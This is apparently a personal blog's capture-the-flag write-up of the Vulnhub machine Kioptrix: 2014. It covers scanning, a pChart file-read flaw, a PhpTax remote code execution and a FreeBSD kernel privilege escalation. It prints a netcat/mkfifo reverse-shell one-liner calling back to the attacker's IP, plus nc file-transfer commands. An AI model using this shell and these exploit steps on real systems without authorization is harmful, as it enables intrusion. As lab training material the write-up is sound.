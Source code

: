 ```yaml
---
layout: post
title:  "Kioptrix: 2014 Write-Up"
categories: [write-ups]
permalink: /write-ups/kioptrix_2014_writeup/
---
```

Kioptrix: 2014 is an intermediate OSCP-like machine hosted on Vulnhub and the fifth one in the Kioptrix series.
<h1>Network Scan</h1>
To get the IP of the machine I used Nmap's ping scan to sweep the network.
![Network Scan](networkScan.png)
192.168.56.10 is the IP of my machine, so 192.168.56.130 is the target.
<br><br>
<h1>Port Scan and NSE Output</h1>
![Port Scan](portScan.png)
There are three ports in the port scanning results, but only 80 and 8080 are open.
![NSE Out](NSEOut.png)
Here we can see that the machine is using FreeBSD and the webserver has mod_ssl 2.2.21, which was vulnerable in another machine in the Kioptrix series (the exploit didn't work this time).
<br><br>
<h1>Port 80 Enumeration</h1>
In the root page of the web server we can see that the server is hosting pChart 2.1.3, which is a php webapp to make charts and it is [vulnerable to LFI](https://www.exploit-db.com/exploits/31173).
![Root page 80](rootPage80.png)
Using the example HTTP request on ExploitDB I could read the /etc/passwd file but I didn't find anything interesting there (except that there is a HIDS installed).<br>
After modifying the HTTP request I read the configuration files for both the SSHD and the Apache services.
![LFI passwd](LFIpasswd.png)
![Apache config location](aconfigloc.png)
In the Apache configuration file we can see that the port 8080 virtual host only accepts connections that have the "UserAgent" header field set to "Mozilla/4.0".
![Apache config code](aconfigcode.png)
<h1>Port 8080 Enumeration</h1>
I used the BurpSuite proxy to rewrite the UserAgent of all my requests to enumerate manually the port 8080 virtual host. 
![Php Tax is installed](phptax.png)
PhpTax is installed in the server and it has a [Remote Code Execution (RCE) vulnerability](https://www.exploit-db.com/exploits/21665). I couldn't find the installed version (I didn't install it in my machine to check the files) but I found that the vulnerability was working after doing some tweaks to the HTTP request.
<h1>RCE Exploitation</h1>
To exploit the RCE I used a one liner to spawn a reverse shell using nc:
{% highlight bash %}rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 1234 >/tmp/f{% endhighlight %}
![Reverse Shell 1](revShell1.png)
![Reverse Shell 2](revShell2.png)
<h1>PrivEsc to Root</h1>
Running uname I found that the machine was using FreeBSD 9.0, which has two registered kernel exploits in ExploitDB. 
![Kernel exploit](kernel.png)
I used the second one, to get it I runned "searchsploit -m exploits/freebsd/local/26368.c" in my local machine and then I uploaded it using nc, as wget and curl weren't installed in the target. The commands I used were:
1. (Local) nc -lnvp 5678 < exploit.c #Used to setup the server
2. (Target) nc 192.168.56.10 5678 > exploit.c #Connect to the server and save the output to exploit.c
Finally I compiled it and executed it in the target machine.
![PrivEsc to Root](root.png)
<h1>Conclusions</h1>
I found this machine pretty easy, maybe because I had solved similar machines in the past. It was really frustating to use the reverse shell as the machine didn't have Python installed and I couldn't upgrade it to a more interactive shell. Fortunatelly the privilege escalation part was only executing a kernel exploit and it didn't require much work on the remote machine.<br><br>
I've been practising buffer overflow and I've done some HackTheBox write-ups (I can't upload them right now because the machines are still active), this is why I didn't post anything in such a long time.
